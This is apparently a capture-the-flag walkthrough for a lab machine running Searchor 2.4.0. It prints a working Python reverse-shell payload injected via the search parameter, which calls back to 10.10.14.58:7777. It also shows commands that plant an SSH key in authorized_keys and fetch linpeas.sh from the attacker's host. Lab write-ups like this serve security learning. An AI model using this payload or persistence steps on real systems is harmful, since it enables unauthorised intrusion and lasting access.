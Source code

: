 Hostname:
```
searcher.htb
```

Web technology:
```
Server: Werkzeug/2.1.2 Python/3.10.6

Flask

Searchor 2.4.0
```

Searchfor RCE exploit:
```
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-?tab=readme-ov-file
```
Payload:
```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.58',7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```
=> BINGO! We got a shell as "svc"

Create SSH keys
```bash
# On Kali
ssh-keygen
python3 -m http.server 80

# On searcher
mkdir -p /home/svc/.ssh
cd /home/svc/.ssh
wget http://10.10.14.58/id_ed25519.pub
cat id_ed25519.pub > authorized_keys
```

Connect via SSH:
```bash
ssh -i ./id_ed25519 svc@10.10.11.208
```

# PrivEsc

Upload linpeas.sh:
```bash
wget http://10.10.14.58/linpeas.sh
```

OS:
```bash
uname -a
# Linux busqueda 5.15.0-69-generic #76-Ubuntu SMP Fri Mar 17 17:19:29 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/issue
# Ubuntu 22.04.2 LTS \n \l
```
